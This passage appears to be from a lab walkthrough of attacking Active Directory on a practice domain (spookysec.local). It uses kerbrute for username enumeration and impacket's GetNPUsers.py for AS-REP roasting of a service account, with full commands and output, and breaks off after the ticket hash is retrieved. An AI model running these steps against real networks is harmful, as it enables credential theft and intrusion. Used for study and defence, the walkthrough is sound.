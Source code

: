 Alrighty, so we're going to be using the two tools we downloaded, Kerbrute and GetNPUsers.py within impacket to pull a user account, request a Kerberos ticket, and crack the hash to ultimately reveal the user account password and gain a foothold within the Active Directory network!

## Brute Forcing Users

```
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #./kerbrute userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d spookysec.local --dc 10.10.13.37

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.2 (fd5f345) - 11/17/19 - Ronnie Flathers @ropnop

2019/11/17 16:20:11 >  Using KDC(s):
2019/11/17 16:20:11 >   10.10.13.37:88

2019/11/17 16:20:11 >  [+] VALID USERNAME:       mark@spookysec.local
2019/11/17 16:20:11 >  [+] VALID USERNAME:       molly@spookysec.local
2019/11/17 16:20:12 >  [+] VALID USERNAME:       ashu@spookysec.local
2019/11/17 16:20:13 >  [+] VALID USERNAME:       dark@spookysec.local
2019/11/17 16:20:16 >  [+] VALID USERNAME:       dan@spookysec.local
2019/11/17 16:20:23 >  [+] VALID USERNAME:       administrator@spookysec.local
2019/11/17 16:20:27 >  [+] VALID USERNAME:       svc-demo@spookysec.local
2019/11/17 16:20:55 >  [+] VALID USERNAME:       sebastian@spookysec.local
2019/11/17 16:22:23 >  [+] VALID USERNAME:       santiago@spookysec.local
2019/11/17 16:22:35 >  [+] VALID USERNAME:       lucy@spookysec.local
2019/11/17 16:23:00 >  [+] VALID USERNAME:       lily@spookysec.local
2019/11/17 16:24:55 >  Done! Tested 8295455 usernames (11 valid) in 4 minutes
```

Reviewing the output, we can see we have a handful of users that we can checkout. There are several users that we should check out immediately, Administrator and svc-demo. That will likely be a unmaintained service account with high privileges that we could use gain a foothold into the network.

Now we can pivot over to impacket, and take a look at GetNPUsers.py, here we will be able to request a Ticket for the svc-demo account and hopefully will be able to crack the password out of the ticket!

## Querying a Kerberos Ticket

```
┌─[root@Sp00kyS3c]─[~/impacket/examples]
└──╼ #./GetNPUsers.py spookysec.local/svc-demo -request -no-pass -dc-ip 10.10.13.37
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for svc-demo
$krb5asrep$23$svc-demo@SPOOKYSEC.LOCAL:f1806292678070 <Snip!> 111f279122d10104b0cfe92c45dcca7eddf45d72eed33437a878b2e68cd844e5c5fd59fb2c72701db5a73ad18bf
```
